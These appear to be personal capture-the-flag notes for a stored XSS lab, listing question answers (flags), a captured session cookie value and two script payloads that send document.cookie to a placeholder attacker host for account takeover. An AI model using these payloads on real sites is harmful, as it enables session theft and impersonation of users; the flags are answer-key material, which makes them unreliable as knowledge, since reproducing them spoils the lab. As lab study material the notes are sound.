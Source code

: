 ```

Successfully added a comment as Jack! Question answer: c00ki3_stealing_

or using burpsuite

Burp Suite’s sitemap to log site.

Access logs.

so

<script>document.location='http://<ip>/log/'+document.cookie</script>


```

The machine you deployed earlier will guide you though exploiting some cool vulnerabilities, stored XSS has to offer. There are hints for answering these questions on the machine.


Add a comment and see if you can insert some of your own HTML.
Doing so will reveal the answer to this question.
*HTML_T4gs*


Create an alert popup box appear on the page with your document cookies.
*W3LL_D0N3_LVL2*

![[Pasted image 20221002193736.png]]

![[Pasted image 20221002194025.png]]

Change "XSS Playground" to "I am a hacker" by adding comments and using Javascript.
*websites_can_be_easily_defaced_with_xss*


![[Pasted image 20221002211735.png]]

Stored XSS can be used to steal a victims cookie (data on a machine that authenticates a user to a webserver). This can be done by having a victims browser parse the following Javascript code:

<script>window.location='http://attacker/?cookie='+document.cookie</script>

This script navigates the users browser to a different URL, this new request will includes a victims cookie as a query parameter. When the attacker has acquired the cookie, they can use it to impersonate the victim. 

![[Pasted image 20221002200014.png]]

![[Pasted image 20221002200609.png]]

Take over Jack's account by stealing his cookie, what was his cookie value?
*s%3Aat0YYHmITnfNSF0kM5Ne-ir1skTX3aEU.yj1%2FXoaxe7cCjUYmfgQpW3o5wP3O8Ae7YNHnHPJIasE*

Post a comment as Jack.
*c00ki3_stealing_*
